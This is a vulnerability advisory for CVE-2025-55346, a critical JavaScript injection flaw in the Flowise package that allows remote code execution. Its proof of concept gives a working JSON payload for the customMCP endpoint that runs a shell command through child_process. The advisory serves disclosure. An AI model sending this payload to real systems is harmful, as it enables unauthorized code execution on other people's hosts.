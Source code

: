 ```yaml
---
description: CVE-2025-55346, CRITICAL, Flowise JS injection remote code execution
title: Flowise JS injection remote code execution
date_published: "2025-08-14"
last_updated: "2025-08-14"
xray_id: JFSA-2025-001379925
vul_id: CVE-2025-55346
cvss: 9.8
severity: critical
discovered_by: Assaf Levkovich 
type: vulnerability

---
```


## Summary

Unintended dynamic code execution leads to remote code execution by network attackers

## Component

[flowise](https://www.npmjs.com/package/flowise?activeTab=code)

## Affected versions

(,)

## Description

User-controlled input flows to an unsafe implementation of a dynamic Function constructor, allowing network attackers to run arbitrary unsandboxed JS code in the context of the host, by sending a simple POST request. Depending on the version of Flowise this could lead to either unauthenticated or authenticated remote code execution.


## PoC

Send the following payload to the `node-load-method/customMCP` API endpoint -

```json
{
    "inputs":
    {
        "mcpServerConfig": "(global.process.mainModule.require('child_process').execSync('touch /tmp/foo'))"
    },
    "loadMethod": "listActions"
}
```





## Vulnerability Mitigations

No mitigations are supplied for this issue



## References



